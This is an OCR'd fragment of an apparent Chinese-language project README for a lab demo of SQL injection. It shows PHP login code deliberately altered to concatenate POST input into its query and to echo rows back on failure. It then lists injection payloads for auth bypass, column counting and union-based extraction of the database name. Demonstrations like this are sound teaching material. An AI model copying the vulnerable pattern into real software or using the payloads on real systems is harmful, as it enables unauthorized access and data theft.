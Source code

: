         $is_invalid = true;
    }
    
    ?>
        
    // 修改代码后部分
    <?php
    ini_set("error_reporting","E_ALL & ~E_NOTICE");
    
    $mysqli = require __DIR__ . "/database.php";
    $name=$_POST['name'];
    $pwd=$_POST['password'];
    $sql="select * from user where name='$name' and password='$pwd'";
    
    $result = $mysqli->query($sql);
    $result1 = $mysqli->query($sql);
    $user = $result->fetch_assoc();
    $row = $result1->fetch_array();
    
    
    $query = $mysqli->query("select name from user"); 
    $ar=array();
    
    while($rows = $query->fetch_assoc()){ 
    	$ar[] = $rows['name']; 
    } 
    
    $res=in_array($user['name'],$ar);
    
    
    if ($res) {
        session_start();
        session_regenerate_id();
        $_SESSION["user_id"] = $user["id"];
        header("Location: upload.php");
        exit;
    }else {
        do{
            if(!is_null($row)) {
                for($i=0; $i<count($row); $i++) {
                    echo $row[$i];
                    echo "<br>";
                }
            }else{
                echo"error!";
            }
        } while( $row = $result->fetch_array() );
    }
    ```

- SQL 注入攻击功能展示

  - 万能语句进行登录： `' or 1=1#`
  - 攻击确定字段数： `' order by 6#`
  - 攻击获取数据库名： `' union select database(),1,1,1,1#`：garbage_collection